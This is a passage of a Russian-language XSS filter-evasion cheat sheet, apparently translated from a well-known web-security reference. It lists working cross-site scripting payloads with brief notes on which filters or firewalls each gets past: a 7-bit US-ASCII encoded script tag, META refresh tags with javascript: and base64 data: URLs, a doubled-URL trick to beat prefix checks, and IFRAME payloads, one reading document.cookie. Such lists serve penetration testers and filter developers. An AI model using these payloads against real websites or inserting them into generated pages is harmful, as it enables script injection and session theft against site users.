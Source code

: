 ### Кодировка US-ASCII

В этой атаке используется искаженная кодировка ASCII с 7 битами вместо 8. Этот метод XSS может обойти многие фильтры содержимого, но он работает только в том случае, если хост передает данные в кодировке US-ASCII или если вы сами установили кодировку. Это более полезно для защиты от XSS-обхода брандмауэра веб-приложений (WAF), чем от фильтрации на стороне сервера. Apache Tomcat - единственный известный сервер, который по умолчанию все еще передает данные в кодировке US-ASCII.

```js
¼script¾alert(¢XSS¢)¼/script¾
```

### META

Особенность meta refresh в том, что он не отправляет ссылку в заголовке, поэтому его можно использовать для определенных типов атак, когда вам нужно избавиться от ссылающихся URL-адресов:

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

#### META с использованием данных

Схема URL-адресов с директивами. Этот метод атаки хорош тем, что в нем также нет ничего видимого, что содержало бы слово SCRIPT или директиву JavaScript, поскольку он использует кодировку base64.  Пожалуйста, посмотрите  [RFC 2397](https://datatracker.ietf.org/doc/html/rfc2397) для получения более подробной информации.

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

#### META с дополнительным параметром URL

Если целевой веб-сайт попытается проверить, содержит ли URL-адрес `<http://>;` в начале, вы можете обойти это правило фильтрации следующим способом:

```html
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

(Автор Moritz Naumann)

### IFRAME

Если IFRAME разрешены, то возникает множество других проблем с XSS:

```html
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

### IFRAME Основанный на событиях

Фреймы и большинство других элементов могут использовать событийный хаос, подобный приведенному ниже:

```html
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```
